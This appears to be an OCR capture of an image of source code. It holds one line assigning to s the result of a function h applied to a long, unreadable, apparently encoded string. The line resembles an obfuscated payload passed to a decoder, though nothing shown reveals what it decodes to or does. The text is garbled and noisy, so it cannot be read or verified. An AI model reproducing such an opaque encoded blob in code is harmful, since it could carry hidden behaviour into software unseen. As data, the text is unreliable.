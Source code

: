 s=h(e,"e_<wqX!0/%>y-SN3Ww>>03Xq<y5wSw>/0S-!//XNwS(y0SX3<X3>-3N0NXy0/!!wNS3!N!!-0qXyw0,XS/yN<_3S-%%N0w%!/<!%f%__NXy>/>XN-0>q!3qq_%w-</K3-i>00>!i<>(XS%q<_NN>y3%qywyw/KX/OS}_SN>_/wN/-<%j!Xw>X0X/<S3N>>%S/_Nq-_/-!_w!qSXX<%3N-N><X<q-_%30X3w%?0S-y_S!-0%_0Nw3<_30Xy<NowS/>S/qX3<-h_S!3wN3-</3_3wX_XN>XXw03SS<>0S4y!%<!*qW_qN--wqqq/qHmqN!yq/03%S>>_0!qy0wX>w!)qS0ySwNqwwq3NNy>-/N_<-/%30rqX_>X!<Xg!SwqX<?NS-<%0y%>>0>X%<%3-S<yw_!3yyN%w!/%_00Xw<_I_SX>S/q9X3N3AS!>q<N<X<q <-0w%_XN_y!/yy<%><><0_%N>->>00jS3yX/0X-w_X!q0<</0!X<3;qS%3_N3-_%V!S30B}3{0!03X^S0y%03Xq<%X<w/_qN<-<%!!NqX-!Ny-X%0!>wyk%0yXX<w3/-S3<Nw>S%>XywS-_00qN_33q-%NyS-yy/L3qSq%-0_q!!3XXw_33S3yw/y!<NwN/S!yL/<NNS_%!!yqp!0q3<X=!-Ny_0y*/(_JqS!>-0XXXw<3N!0Xwj3Nqy%SyS<>00ywX_-N3-b/%03X<_N3/-!>0X_q0_0N--<>}q/XL<X3/XSwN9XS>>3S/yN%>!/q/_-3q-yq-q/q/_}NX-w<-PXSq>%0N>w%qXNqyl-NNXww_3ySk>X-_yq%/w-w!G-Nqy_%qX-w>>w/Sqy<V3X_/NN->/>wNqyN/NX-0/%w-w3<3K%S>>!w>qwwS3-SSy</!N33%%0!-q_!>Xw<%.//>>X0SXX<wywS3%N/XP0<-iwSX>30Xq/<N3q-/X%/Xq-<-3X/</q0yXV<qSN-X%/<>wXN0>%-T>-</<w_0Ny-_>w!0q0SwyN%w!/wSSyy</wX/<SXRw/_%N!X/wqoLSX>>-<-!/NX3q0JS-%yy/%3NS0>!0yX(0wX3q!3/S>yt<Xx_-S><00>w/<!<w!3wNX>3/qX/-yN!0wq/_SX>wy_=N_y%XX_33qb-S4yyq0XX<-W-SXy00%!_wq3ySS>w/qX/ww3%S0y<q_qy<-33%!yqX%qy<ydq-/!%X>qX<33S%h/SX!M3Ow3X-w>/!-X<<Ny%--%X0<q-N<3y-->00%w3_!yq-0>X!!S-y>/qX%<NX_wS<q-!-%%y0_w>_>30-w<-2/Sq>%0N>_/S0q<!_!Nwy/%<!TS<>30>q3<qq4ww_0-yy<%q!SwXcqSyqS<>3X->%3NFy/03X0wy__NqyY/>X/-/>%0PqX_>qw<%8XSwyw/0X3w!y0>N>S00qN<y%000w3_qN%_SSN--/XXXw__yDXyN>X/q<N?q%_!>w%TNNw<_3ySX%-0NXXy/%/!8wXu>ww_%3X-w>w00q3<!>0>q>s0wq)y<%qX><3Gq<S_wN3yS%S0_q%<n>_>3%)!-q__%3!X!wA3NSw>/yN-0%y!y3_3>NyX<<>3>-3>qN%>3/-!>qv>q/wq-<_3!_3ZXN_>3/3!wwy_<%w%>0NX!q>%-0_q!_yqq-X%>!3qX_%NN-w>>0<q<_0N-S%%!!yqj<0NSy3%q!%!!_wN/ySy/!%w-__N!-_% !!w><-NqySNq!ww/nSN/y0/S!_w!wwNhyX/>!IwqV%SN-X>CXSw<)09<y_/!Xyq<X0S>y{/q!!<N:wS/-S/0X0<S}_S0>y/!XXw-o>Sq>-0N0X</3SS<>0%<X_<03ySw>X0>q3<q_w-N>w0/qS<<3%-->_/_qy<L3X-y%30!q%wN3!-/%N0<q0_-_m-!>S0%qX_-N3NU%%!Nqw<>3w-<%>!-q3_!Ny-+%X//w3_XN%-_%w!>wSw<w>y-%w!!w-_7
